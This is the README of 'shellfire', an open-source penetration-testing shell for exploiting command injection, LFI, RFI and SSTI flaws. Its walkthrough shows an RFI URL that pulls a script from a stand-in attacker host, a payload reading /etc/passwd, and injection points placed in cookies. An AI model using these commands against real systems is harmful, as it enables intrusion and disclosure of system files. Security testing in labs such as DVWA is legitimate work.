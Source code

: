 # shellfire

_shellfire_ is an exploitation shell which focuses on exploiting command injection vulnerabilities. This can be useful when exploiting LFI, RFI, SSTI, etc.

I originally started developing this script while working on my OSCP labs. As the capabilities grew, I thought maybe other people could find this as 
useful as I have, so I decided to open source my tool.

## Features  

- [X] Persistent named configuration for multiple targets (and sharing!)  
- [X] Plugin system  
- [X] PHP payload  
- [X] ASP payload  


## Installation  

Run `pip install -r requirements.txt` to install the application dependencies.  


## A few useful hints

To use shellfire, just fire it up via python (or add execute permissions and 
launch it directly). For example:

```
$ python shellfire.py
[*] ShellFire v0.8
[*] Type '.help' to see available commands
>>
```

You can type `.help` at any time for a list of available commands, or append 
the command you want to know more information about to help for specific 
details. For example `.help .http`.

Let's explore how to attack a basic RFI vulnerability!

To start exploitation, you need to specify at least the URL parameter of your target. 
Something like the following should work:

```
>> .url http://example.com/?path=http://evil.com/script.php
```

Running any command now would cause your RFI to get executed on the remote target.

Let's say you want to arbitrarily control the payloads going to the path paramter. This time, we will use `{}` to specify our injection point.

```
>> .url http://example.com/?path={}
```

Now, you can just type the payload you want to send and hit enter.

```
>> /etc/passwd
```

At this point, you should have enough to exploit easy vulnerabilities. Payloads you enter on the shell will be appropriately injected and sent over to your target.

More complex vulnerabilities may require specifying additional options. 
For example, let's assume you needed to send a cookie with a session ID in 
order to exploit your target. You may want to add something like this:

```
>> .cookies { "session_id" : "123456789" }
```

We can specify injection points in cookies too.

```
>> .cookies { "session_id" : "123456789", "vuln_param": "{}" }
```

Additional options, and information on how to use them, can be discovered by 
using the `.help` option in the shell.

Thanks to Offensive-Security for inspiring the creation of this utility.

Please use this tool for good.

Happy hacking!


## Testing  

Testing is currently being done against the [dvwa docker image](https://hub.docker.com/r/vulnerables/web-dvwa/).
